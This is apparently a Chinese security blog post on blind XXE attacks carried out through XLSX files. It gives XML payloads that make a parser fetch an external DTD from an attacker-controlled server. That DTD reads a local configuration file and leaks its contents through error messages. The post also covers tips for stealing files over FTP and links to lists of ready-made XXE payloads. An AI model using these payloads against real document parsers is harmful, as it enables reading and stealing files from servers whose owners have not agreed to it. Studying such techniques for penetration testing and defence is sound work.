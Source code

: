 另外的盲XXE的利用方式。还是利用报错的原理，不过这次是用文件不存在的报错，而且把更多的payload放到完美控制的服务端，而不是xlsx的端，更加方便修改。
xlsx文件中只需要这样：
```xml
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://49.x.y.z:8888/ext.dtd">
    %ext;
]>
```
然后服务器的ext.dtd文件像这样：
```xml
<!ENTITY % file SYSTEM "file:///D:/repos/xray/config.yaml">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
不过碰到一些#等特殊服务还是不行。
注意这里的file协议后面的斜杠需要有三个（本地），如果只有两个，是会从网络中查找的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117151157639.png#pic_center)
建议使用ftp方式，支持的特殊符号更多，更不容易失败，参考：
https://www.cnblogs.com/zpchcbd/p/12900903.html
总结：
> 
> 1、所有的【\r】 都会被替换为【\n】
2、如果不包含特殊字符，低版本 ftp 可以读多行文件，高版本 ftp 只可以读单行文件，全版本 http 都只可以读单行文件，所以这里通用的方法就是FTP来进行读取
3、版本限制是 <7u141 和 <8u162 才可以读取整个文件
4、如果含有特殊字符 【%】 【&】 会完全出错
5、如果含有特殊字符 【’】 【”】 可以稍微绕过
6、如果含有特殊字符 【?】，对 http 无影响，对 ftp 会造成截断
7、如果含有特殊字符【/】， 对 http 无影响，对 ftp 需要额外增加解析的 case
8、如果含有特殊字符【#】，会造成截断

测试发现简单的还可以，
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117153142150.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)

但是依然不是很好用。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117153104487.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117153159666.png#pic_center)

XLSX文件的XXE：
> xl/workbook.xml提供了工作簿内容的概述，通常是大多数解析开始的地方，因为它将包含工作表及其名称的列表。单个工作表本身位于xl/worksheets目录下，通常内容最终会进入xl/sharedStrings.xml。

首先尝试`xl/workbook.xml`，然后是`xl/sharedStrings.xml`。

参考：[利用EXCEL进行XXE攻击](https://xz.aliyun.com/t/3741)

### 绕过特殊符号限制的payload
- https://gist.github.com/staaldraad/01415b990939494879b4

### 基于local DTD的payload
- https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/
- https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md
